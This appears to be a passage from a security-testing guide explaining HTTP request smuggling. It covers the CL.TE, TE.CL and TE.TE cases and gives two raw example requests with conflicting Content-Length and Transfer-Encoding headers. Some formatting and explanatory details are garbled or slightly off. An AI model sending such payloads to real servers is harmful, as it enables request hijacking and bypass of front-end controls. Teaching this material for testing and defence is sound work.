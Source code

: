 ## Basic Examples

So, request smuggling attacks involve placing both the `Content-Length` header and the `Transfer-Encoding` header into a single HTTP request and manipulating these so that the front-end and back-end servers process the request differently. The exact way in which this is done depends on the behaviour of the two servers:

* **CL.TE**: the front-end server uses the `Content-Length` header and the back-end server uses the `Transfer-Encoding` header.
* **TE.CL**: the front-end server uses the `Transfer-Encoding` header and the back-end server uses the `Content-Length` header.
* **TE.TE**: the front-end and back-end servers both support the `Transfer-Encoding` header, but one of the servers can be induced not to process it by obfuscating the header in some way.

### CL.TE vulnerabilities

Here, the **front-end** server uses the **`Content-Length`** header and the **back-end** server uses the **`Transfer-Encoding`** header. We can perform a simple HTTP request smuggling attack as follows:

`POST / HTTP/1.1`\
`Host: vulnerable-website.com`\
`Content-Length: 30`\
`Connection: keep-alive`\
`Transfer-Encoding: chunked`\
``\ `0`\``\
`GET /404 HTTP/1.1`\
`Foo: x`

Note how `Content-Length` indicate the **bodies request length is 30 bytes long** (_remember that HTTP uses as new line, so 2bytes each new line_), so the reverse proxy **will send the complete request** to the back-end, and the back-end will process the `Transfer-Encoding` header leaving the `GET /404 HTTP/1.1` as the **beginning of the next request** (BTW, the next request will be appended to `Foo:x<Next request starts here>`).

### TE.CL vulnerabilities

Here, the front-end server uses the `Transfer-Encoding` header and the back-end server uses the `Content-Length` header. We can perform a simple HTTP request smuggling attack as follows:

`POST / HTTP/1.1`\
`Host: vulnerable-website.com`\
`Content-Length: 4`\
`Connection: keep-alive`\
`Transfer-Encoding: chunked`\
``\ `7b`\ `GET /404 HTTP/1.1`\ `Host: vulnerable-website.com`\ `Content-Type: application/x-www-form-urlencoded`\ `Content-Length: 30`\``\
`x=`\
`0`\
`\`

In this case the **reverse-proxy** will **send the hole request** to the **back-end** as the **`Transfer-encoding`** indicates so. But, the **back-end** is going to **process** only the **`7b`** (4bytes) as indicated in the `Content-Lenght` .Therefore, the next request will be the one starting by `GET /404 HTTP/1.1`
